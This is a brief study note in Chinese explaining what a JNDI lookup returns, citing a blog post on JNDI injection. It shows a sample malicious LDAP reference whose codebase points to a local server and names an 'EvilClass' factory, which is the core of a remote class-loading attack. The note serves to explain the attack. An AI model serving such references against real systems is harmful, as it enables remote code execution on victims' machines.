

# 1.JNDI返回的是什么？



文本化的数据

```
ObjectClass: javaNamingReference
javaCodebase: http://localhost:5000/
JavaFactory: EvilClass
javaClassName: FooBar
```

# 参考资料:

> https://evilpan.com/2021/12/13/jndi-injection/